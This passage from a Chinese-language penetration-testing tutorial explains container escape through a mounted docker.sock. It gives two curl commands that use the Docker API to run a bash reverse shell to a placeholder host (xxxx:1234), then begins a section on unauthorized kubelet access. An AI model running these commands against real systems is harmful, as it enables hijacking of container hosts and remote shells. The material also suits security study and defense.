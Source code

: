 就像这样：（图片引用自 freebuf）

[![](assets/1698894613-50869accb2e707f8a2e3a6d88945c2a1.png)](https://storage.tttang.com/media/attachment/2022/03/12/d4fbd137-2fbf-413c-858b-3f2db625760e.png)

#### [直接利用现成的 docker.sock](#toc_dockersock_1)

如果我们入侵了一个 docker 容器，这个 docker 容器里面有 docker.sock(常用路径/var/run/docker.sock)，那么就可以直接利用此文件控制 docker daemon。

把上一小节的命令改改就行，加一个—unix-socket 参数。

```plain
curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'

curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

一般来说 docker.sock 是存在于 docker daemon 服务端的，但如果开发人员想在 docker 容器里运行 docker 命令，就需要把宿主机的 docker.sock 挂载到容器内部了，这就给了我们 docker 逃逸的可乘之机。

### [kubelet 未授权](#toc_kubelet)

kubelet 和 kubectl 的区别？

kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。
